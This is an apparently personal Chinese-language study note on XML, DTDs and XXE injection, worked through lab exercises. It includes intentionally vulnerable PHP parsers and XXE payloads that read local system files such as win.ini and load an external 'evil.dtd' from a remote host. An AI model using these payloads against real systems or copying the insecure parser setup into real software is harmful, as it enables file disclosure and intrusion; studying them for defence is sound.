





不知道从何说起就这放一张图吧。纪念一下第一次看懂port swigger的鸟语。

  



  

<!--more-->

  

# XML

  

>Extensible Markup Language

  

a markup language and file format

  
  
  

主要目的是序列化，即存储、传输、重构任意数据。

  

一个example：

  

```xml

//XML声明即是位于XML文档开始部分的第一行，规定了xml版本和编码格式

<?xml version="1.0" encoding="UTF-8"?>

  

//每个xml文档必有一个根元素，这里指<note>

<note>

  <to>Tove</to>

  <from>Jani</from>

  <heading>Reminder</heading>

  <body>Don't forget me this weekend!</body>

</note>

```

  
  
  

## 特点

  
  

通过 XML 您可以发明自己的标签

上面实例中的标签没有在任何 XML 标准中定义过（比如 `<to>`和 `<from>`）。这些标签是由 XML 文档的创作者发明的。

  

这是因为 XML 语言没有预定义的标签。

  

HTML 中使用的标签都是预定义的。HTML 文档只能使用在 HTML 标准中定义过的标签（如 `<p>`、`<h1>` 等等）。

  

XML 允许创作者定义自己的标签和自己的文档结构。

  

## 与HTML有区别

  

XML 不是 HTML 的替代。

  

XML 和 HTML 为不同的目的而设计：

  

- XML 被设计用来传输和存储数据，其焦点是数据的内容。

  

- HTML 被设计用来显示数据，其焦点是数据的外观。

  

- HTML 旨在显示信息，而 XML 旨在传输信息。

  
  

[更多详情在这里](https://www.runoob.com/xml/xml-usage.html)

  

## DTD

  

>Document Type Definition

  

### DTD引用

  
  

- DTD内部声明

`<!DOCTYPE root_element [declare]>`

  

- DTD外部引用

`<!DOCTYPE root_element  SYSTEM "enternal DTD file path/url">`

  

- 引用公共DTD

`<!DOCTYPE root_element  PUBLIC "DTD name" "public dtd url">`

  

### DTD实体声明

  

- 内部实体声明

`<!ENTITY entity_name "entity value">`

  

- 外部实体声明

`<!ENTITY entity_name SYSTEM "url/uri">`

  

- 通用实体

`&`引用的实体，在DTD中定义，xml中引用

  

- 参数实体

`%`引用的实体，在DTD中定义，DTD中使用，可以在外部引用

  

# XML注入

  

[一个关于XML注入的简单总结](https://uuzdaisuki.com/2018/07/23/xml%E6%B3%A8%E5%85%A5%E6%94%BB%E5%87%BB%E6%80%BB%E7%BB%93/)

  
  

# XXE(XML External Entity Injection)

  

>XML注入的一种，针对于外部实例

  
  

## demo test

  

```php

<?php

$xml = simplexml_load_string($_POST['xml']);

print_r($xml);

?>

  

```

用 POST 进行传参 ：

  

```xml

xml=<note>

<to>Tove</to>

<from>Jani</from>

<heading>Reminder</heading>

<body>Don't forget me this weekend!</body>

</note>

```

  

得到结果：

  



  
  

<hr>

  

进行进一步的测试

  

升级一下：

```php

<?php

  

    libxml_disable_entity_loader (false);//用来禁用或启用 libxml 库中的实体加载器。参数 false 表示启用实体加载器。

    $xmlfile = file_get_contents('php://input');//从 PHP 的输入流中读取数据，并将其存储在 $xmlfile 变量中。

    $dom = new DOMDocument();//创建了一个新的 DOMDocument 对象，该对象表示一个 XML 或 HTML 文档。

    $dom->loadXML($xmlfile, LIBXML_NOENT | LIBXML_DTDLOAD); //使用 $xmlfile 中的 XML 数据加载 DOMDocument 对象，后面两个是解析选项

    $creds = simplexml_import_dom($dom);//将 DOMDocument 对象转换为 SimpleXMLElement 对象，以便更容易地处理 XML 数据

    echo $creds;//将 SimpleXMLElement 对象转换为字符串，并输出

  

?>

```

  

## 直接利用

  
  

以Windows环境为例：

  

post传入

  

```xml

<?xml version="1.0"?>

<!DOCTYPE a [

  <!ENTITY b SYSTEM "file:///c:/windows/win.ini">

]>

<c>&b;</c>

```

  

喜提：

`; for 16-bit app support [fonts] [extensions] [mci extensions] [files] [Mail] MAPI=1`

  
  

## 远程调用DTD

  

在直接利用的基础上修改

```xml

<?xml version="1.0"?>

<!DOCTYPE a [

  <!ENTITY b SYSTEM "http://xxxx/xxx.dtd">

]>

<c>&b;</c>

```

  

xxx.dtd中写：

```dtd

<!ENTITY b SYSTEM "file:///c:/windows/win.ini" >

```

  
  

效果same

  

<hr>

  

## xxe-lab test

  

在进行next level前，来做一个简单的靶场xxe lab

  

做的php版本（大差不差）

  

```php

//doLogin.php

<?php

/**

* autor: c0ny1

* date: 2018-2-7

*/

  

$USERNAME = 'admin'; //账号

$PASSWORD = 'admin'; //密码

$result = null;

  

libxml_disable_entity_loader(false);

$xmlfile = file_get_contents('php://input');

  

try{

  //可以参考上面那个升级版demo的解释

  $dom = new DOMDocument();

  $dom->loadXML($xmlfile, LIBXML_NOENT | LIBXML_DTDLOAD);

  $creds = simplexml_import_dom($dom);

  

  $username = $creds->username;

  $password = $creds->password;

  

  //进行检查

  if($username == $USERNAME && $password == $PASSWORD){

    $result = sprintf("<result><code>%d</code><msg>%s</msg></result>",1,$username);

  }else{

    $result = sprintf("<result><code>%d</code><msg>%s</msg></result>",0,$username);

  }

}catch(Exception $e){

  $result = sprintf("<result><code>%d</code><msg>%s</msg></result>",3,$e->getMessage());

}

  

header('Content-Type: text/html; charset=utf-8');

echo $result;

?>

```

  

主要看`echo`在echo个什么，很明显的是`$result`，所以回去看这个参数有些什么。

  

`$username` & `msg`

  

通过抓包看到的是



  

所以实体要在`$username`里面进行引用

  

then it goes like:

  



  

<hr>

  

在port swigger lab的XXE 1时，非常简单一个道理：

  

就如图所示：


  

<hr>

<hr>

  

# Next Level

  

>当文件内容比较非常规的时候，读取解析会出现错误

  

比如这个：

  

```txt

KITS.AI

# etc :/eta heard him say

....we can go&wherever%you###like

```

  

再次执行之前成功的payload就会得到很多报错：

  



  

<hr>

  

解决这个问题的一个有效方法就是使用`<![CDATA[]]>`

  

>在 XML 中，<![CDATA[]]> 的作用是保护一些特殊字符，例如小于号 < 等，使其不被解析。这是因为在 XML 文档的解析过程中，字符 < 和 & 会被解析为新元素或字符实体的开始。因此，如果希望一些字符被视为纯文本而不是 XML 语法，可以将它们放在 <![CDATA[]]> 中。

  

乍一看心情是：what are you fucking talking about？

  

举个例子

  

用初始xml进行改造：

  

```xml

<?xml version="1.0" encoding="utf-8"?>

<!DOCTYPE creds [

   <!ENTITY goodies SYSTEM "file:///c:/windows/win.ini">

]>

<creds>&goodies;</creds>

```

  

<hr>

  

在引用上加`<![CDATA[]]>`

  

```xml

<?xml version="1.0" encoding="utf-8"?>

<!DOCTYPE creds [

   <!ENTITY goodies SYSTEM "file:///C:/Users/haerinwon/Desktop/ai.txt">

]>

<creds><![CDATA[&goodies;]]></creds>

```

得到结果是`&goodies;`

  

<hr>

  
  

```xml

//payload

<?xml version="1.0" encoding="utf-8"?>

<!DOCTYPE roottag [

<!ENTITY % start "<![CDATA[">  

<!ENTITY % goodies SYSTEM "file:///d:/test.txt">  

<!ENTITY % end "]]>">  

<!ENTITY % dtd SYSTEM "http://ip/evil.dtd">

%dtd; ]>

  

<roottag>&all;</roottag>

  

//evil.dtd

<?xml version="1.0" encoding="UTF-8"?>

<!ENTITY all "%start;%goodies;%end;">

```

  

tbc..
